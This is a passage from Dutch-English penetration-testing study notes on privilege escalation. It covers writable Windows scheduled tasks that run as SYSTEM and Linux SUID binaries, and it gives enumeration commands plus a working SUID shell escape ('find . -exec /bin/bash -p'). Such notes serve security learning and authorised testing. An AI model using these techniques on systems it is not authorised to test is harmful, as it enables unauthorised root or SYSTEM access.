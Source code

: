 **Vulnerability:**
- Scheduled tasks die draaiien als SYSTEM
- Task executable heeft write permissions voor low-priv user

**Detection:**
```powershell
schtasks /query /fo LIST /v
icacls C:\Path\To\Task\Executable.exe
```

**Exploitation:**
- Replace executable met malicious version
- Wacht tot scheduled time
- Task draait met elevated privileges

---

## Linux Privilege Escalation - Detailed

### SUID Binaries Exploitation

**SUID Concept:**
- Set User ID bit
- Binary draait met permissions van owner
- Vaak root-owned binaries

**Find SUID Binaries:**
```bash
find / -perm -4000 -type f 2>/dev/null
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

**Common Exploitable SUID Binaries:**
- /usr/bin/find
- /usr/bin/vim
- /usr/bin/nano
- /usr/bin/cp
- /usr/bin/mv

**GTFOBins Resource:**
- Website: https://gtfobins.github.io/
- Exploitation methods voor Unix binaries
- SUID, sudo, capabilities exploitation

**Voorbeeld Exploitation (find):**
```bash
find . -exec /bin/bash -p \; -quit
```

### Sudo Misconfigurations

**Check Sudo Rights:**
```bash
sudo -l
```
